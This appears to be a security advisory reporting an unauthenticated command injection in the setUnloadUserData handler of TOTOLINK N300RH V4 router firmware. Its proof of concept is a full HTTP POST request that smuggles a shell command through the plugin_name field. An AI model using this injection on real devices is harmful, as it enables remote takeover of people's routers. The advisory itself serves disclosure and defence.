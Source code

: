 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [N300RH_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/188.html)

**Affected firmware version:** V6.1c.1390_B20191101

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html))

# Overview

There is a serious command execution vulnerability in TOTOLINK N300RH V4. The vulnerability can be triggered by the route /cgi-bin/cstecgi.cgi. An attacker can perform a remote command execution attack by sending an HTTP POST  setting/setUnloadUserData  request without authorization.

# Vulnerability details



There is command splicing here

![image-20250510212102996](m2/image-20250510212102996.png)

# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/index.htm
Connection: close
Cookie: languageType=cn; productName=N300RH%20v4; fmVersion=V6.1c.1390
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 01 Nov 2019 08:02:33 GMT
If-None-Match: "4271978973"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

{"topicurl":"setting/setUnloadUserData",
"plugin_name":";echo 'this is second test'> /usr/lib/lighttpd/web/2.txt;"
}
```

![image-20250510212402190](m2/image-20250510212402190.png)